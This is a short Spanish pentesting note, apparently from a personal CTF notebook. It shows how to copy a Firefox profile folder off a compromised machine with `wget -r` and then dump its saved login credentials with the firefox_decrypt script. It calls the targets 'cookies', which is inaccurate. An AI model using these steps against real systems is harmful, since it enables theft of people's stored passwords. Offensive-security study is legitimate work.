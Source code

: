 ```yaml
---
icon: firefox
---
```


# Decrypt Firefox

Si en alguna vez se encuentra una carpeta en una maquina llamado algo como `.mozilla/firefox` y dentro de esas ruta puede haber una via potencial para desencriptar `coockies` de inicios de sesion...

URL = [Script Firefox\_decrypt](https://github.com/unode/firefox_decrypt)

Si nos encontramos una carpeta que contiene cosas de `firefox` nos las podemos pasar a neustro `host` utilizando el siguiente comando...

```shell
wget -r <IP>:<PORT>
```

Para descargarte todo el contenido de esa `IP` y de ese puerto...

Y para utilizar la herramienta anterior una vez que tengamos nuestra carpeta entera de `.mozilla/firefox/` haremos lo siguiente con la herramienta...

```shell
python3 firefox_decrypt.py ../firefox/
```

Esto te pedira una contraseña si estuviera protegida la informacion, pero si no te daria las credenciales directamente encontradas...
